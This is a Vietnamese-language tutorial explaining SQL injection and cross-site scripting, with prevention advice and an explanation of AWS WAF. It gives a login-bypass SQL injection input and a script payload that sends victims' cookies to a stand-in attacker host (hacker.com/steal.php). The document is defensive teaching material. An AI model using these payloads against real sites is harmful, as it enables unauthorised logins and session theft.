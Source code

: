 # Các Tấn Công Web Phổ Biến

## SQL Injection

SQL Injection là một kỹ thuật tấn công mạng trong đó kẻ tấn công chèn mã SQL độc hại vào các đầu vào được sử dụng trong ứng dụng web nhằm truy cập trái phép hoặc thay đổi dữ liệu trong cơ sở dữ liệu.

### Cách Thức Hoạt Động:

1. Ứng dụng web sử dụng đầu vào từ người dùng để xây dựng câu truy vấn SQL
2. Kẻ tấn công nhập các ký tự đặc biệt và mã SQL vào các trường đầu vào
3. Mã độc được thực thi khi ứng dụng chạy câu truy vấn

### Ví dụ:

- **Truy vấn ban đầu**: `SELECT * FROM users WHERE username='[nhập_vào]' AND password='[nhập_vào]'`
- **Đầu vào độc hại**: Username: `' OR '1'='1` và Password: `' OR '1'='1`
- **Kết quả truy vấn**: `SELECT * FROM users WHERE username='' OR '1'='1' AND password='' OR '1'='1'`
- **Hậu quả**: Truy vấn luôn trả về true, cho phép đăng nhập mà không cần mật khẩu hợp lệ

### Phòng Chống:

- Sử dụng câu lệnh được tham số hóa (Parameterized Queries)
- Xác thực và làm sạch đầu vào người dùng
- Áp dụng nguyên tắc đặc quyền tối thiểu cho tài khoản cơ sở dữ liệu
- Sử dụng WAF để lọc các mẫu tấn công SQL Injection phổ biến

## Cross-Site Scripting (XSS)

Cross-Site Scripting (XSS) là một lỗ hổng bảo mật cho phép kẻ tấn công chèn mã script (thường là JavaScript) vào các trang web mà người dùng khác xem. Khi người dùng tải trang, script độc hại sẽ chạy trong trình duyệt của họ.

### Các Loại XSS:

1. **Stored XSS (XSS Lưu Trữ)**: Script độc hại được lưu trữ trên máy chủ (ví dụ: trong cơ sở dữ liệu, diễn đàn, bình luận)
2. **Reflected XSS (XSS Phản Xạ)**: Script độc hại được nhúng vào URL và chỉ ảnh hưởng đến người dùng nhấp vào liên kết đó
3. **DOM-based XSS**: Script độc hại thao tác với cấu trúc DOM của trang mà không qua máy chủ

### Ví dụ:

- **Bình luận độc hại**: `<script>document.location='http://hacker.com/steal.php?cookie='+document.cookie</script>`
- **Kết quả**: Khi người dùng xem trang có bình luận này, cookie của họ sẽ bị gửi đến máy chủ của kẻ tấn công

### Các Mối Đe Dọa:

- Đánh cắp phiên đăng nhập (session hijacking)
- Đánh cắp thông tin cá nhân
- Thay đổi nội dung trang web
- Phishing bằng cách chuyển hướng người dùng đến trang giả mạo
- Cài đặt mã độc

### Phòng Chống:

- Mã hóa đầu ra (output encoding)
- Xác thực đầu vào chặt chẽ
- Sử dụng các HTTP headers bảo mật như Content-Security-Policy
- Sử dụng thẻ HttpOnly cho cookies quan trọng
- Triển khai WAF để lọc các mẫu tấn công XSS phổ biến

## Tầm Quan Trọng Của WAF Trong Việc Phòng Chống

AWS WAF được thiết kế đặc biệt để phát hiện và ngăn chặn các tấn công web phổ biến như SQL Injection và XSS. Nó có thể kiểm tra các yếu tố của HTTP request như:

- URL paths
- Query strings
- HTTP headers
- HTTP method
- Thân request (body)

WAF sử dụng các quy tắc và mẫu để xác định và chặn các request độc hại trước khi chúng đến được ứng dụng web của bạn, giúp bảo vệ ứng dụng khỏi các lỗ hổng bảo mật web phổ biến.
